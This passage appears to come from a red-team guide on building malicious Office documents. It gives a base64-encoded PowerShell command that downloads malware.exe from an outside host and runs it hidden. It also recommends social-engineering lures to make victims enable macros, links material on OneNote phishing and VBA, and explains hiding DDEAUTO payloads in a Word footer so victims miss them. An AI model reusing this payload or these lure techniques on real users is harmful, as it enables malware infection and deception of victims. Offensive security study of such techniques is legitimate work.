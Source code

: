 For malicious execution POC, you might want to replace `calc.exe` with `powershell -enc KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAcwB5AHMAdABlAG0ALgBuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAZgBpAGwAZQAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AOAAwAC4AMQAyADkAOgA4ADAAMAAwAC8AbQBhAGwAdwBhAHIAZQAuAGUAeABlACcALAAnAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGUAbQBwAFwAbQBhAGwAdwBhAHIAZQAuAGUAeABlACcAKQA7AHMAdABhAHIAdAAtAHAAcgBvAGMAZQBzAHMAIABDADoAXABXAGkAbgBkAG8AdwBzAFwAVABlAG0AcABcAG0AYQBsAHcAYQByAGUALgBlAHgAZQAgAC0AVwBpAG4AZABvAHcAUwB0AHkAbABlACAASABpAGQAZABlAG4A`. The encoded base64 can be generate using this [recipe](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')).

Also, to lure user to click enable content, you might need some social engineering such as pictures or words that can manipulate user such as this picture:

![image](https://user-images.githubusercontent.com/56353946/226780899-43d02a21-e38d-4a5d-96f4-4f0d2c970a62.png)

Enabling the content upon opening the document will execute our code.
![image](https://user-images.githubusercontent.com/56353946/203389403-6939fd42-fdb2-443e-9514-df0b28870163.png)
![image](https://user-images.githubusercontent.com/56353946/203389593-84652bf9-9070-4422-9f4f-e41cb90a0032.png)


You can learn VBA coding from the resouces below:
1. https://www.trustedsec.com/blog/intro-to-macros-and-vba-for-script-kiddies/
2. https://www.trustedsec.com/blog/the-vba-language-for-script-kiddies/
3. https://www.trustedsec.com/blog/developing-with-vba-for-script-kiddies/

# OneNote

Refer this source: https://assume-breach.medium.com/home-grown-read-team-lets-make-some-onenote-phishing-attachments-a14f4ef6ccc4

![image](https://user-images.githubusercontent.com/56353946/226783305-41de9cc3-e2cb-4420-9ba8-8976e2c8b56d.png)


# DDE attack
This attack was commonly use by attacker out there, where once a victim was phished by clicking the "yes" button in the Warning message by Office, they can immidiately being compromised by the attacker. But, as far as I'm concerned. This vulnerability have been patched by Microsoft. So, the older version of Microsoft Office still vulnerable to this.

DDEAUTO, short for automatic dynamic data exchange, is a command you can put right inside the data of an Office file to get it to pull data out of another file. In our context DDE works by executing command, that will provide the data (data provider).

DDE attack can be done in Microsoft Word and Excel. Let's talk about DDE in Word.

## Microsoft Word
Go to `Insert` tab -> Click on `Quick Parts` -> Click on `Field`:
![image](https://user-images.githubusercontent.com/56353946/203390140-4f2420b5-fc30-460b-8a3a-f56093e7a6b9.png)

You can setup the `DDEAUTO` payload at footer of our document to avoid victim not notice any DDEAUTO mechanism.
